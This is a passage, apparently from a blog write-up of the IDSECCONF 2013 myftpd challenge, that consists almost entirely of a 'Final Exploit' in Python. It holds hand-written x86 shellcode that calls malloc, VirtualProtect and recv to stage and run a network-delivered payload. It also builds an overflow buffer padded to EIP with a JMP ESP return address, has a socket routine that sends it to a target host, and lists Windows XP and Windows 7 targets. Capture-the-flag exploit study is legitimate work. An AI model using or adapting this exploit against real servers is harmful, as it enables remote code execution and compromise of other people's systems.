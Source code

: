 ``` python Final Exploit
  # prepare for the malloc call and call it
  block1 += "\x8B\xF8"                           # MOV EDI, EAX
  block1 += "\x66\xBB\xD4\x3D"                   # MOV BX, 0x3DD4
  block1 += "\x8A\xE0"                           # MOV AH, AL
  block1 += "\x50"                               # PUSH EAX
  # invoke the call to `malloc`
  block1 += "\xFF\xD3"                           # CALL EBX
  block1 += "\xEB\x9D"                           # JMP BLOCK2

  block2  = ""
  block2 += "\x59\x51"                           # POP ECX, PUSH ECX
  # save the memory handle, and push it up ready for later use
  block2 += "\x8B\xF0"                           # MOV ESI, EAX
  block2 += "\x50"                               # PUSH EAX
  # set up virtual protect call
  block2 += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
  block2 += "\x8D\x44\x24\xDC"                   # LEA EAX, [ESP-0x24]
  block2 += "\x50"                               # PUSH EAX
  block2 += "\x6A\x40"                           # PUSH 0x40
  block2 += "\x51"                               # PUSH ECX
  block2 += "\x56"                               # PUSH ESI
  # call virtual protect
  block2 += "\xFF\xD3"                           # CALL EBX
  # prep the call for recv
  block2 += "\x66\xBB\xDC\x82"                   # MOV BX, 0x82DC
  block2 += "\x57"                               # PUSH EDI
  # jump to tucked block
  block2 += "\xEB\x05"                           # JMP <5 bytes forward>

  tucked  = ""
  # call recv
  tucked += "\xFF\x13"                           # CALL [EBX]
  # invoke the payload
  tucked += "\xFF\xE6"                           # JMP ESI

  command  = ""
  command += "Z" * (offsets['SC'] - len(command))
  command += block2
  command += "B" * (offsets['EIP'] - len(command))
  command += struct.pack("<L", target['JMPESP'])
  command += tucked
  command += block1
  command += "E" * (max_size - len(command))
  return command

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload, port, recv = True):
  print "[*] Sending {0} bytes to {1}:{2}...".format(len(payload), host, port)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  if recv:
    s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

# the start of our collection of supported platforms
targets = [
    { 'Name': 'Windows XP SP3', 'Func': windows_xp, 'JMPESP': 0x7e4456f7 },
    { 'Name': 'Windows 7', 'Func': windows_7, 'PPR': 0x00403723 }
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization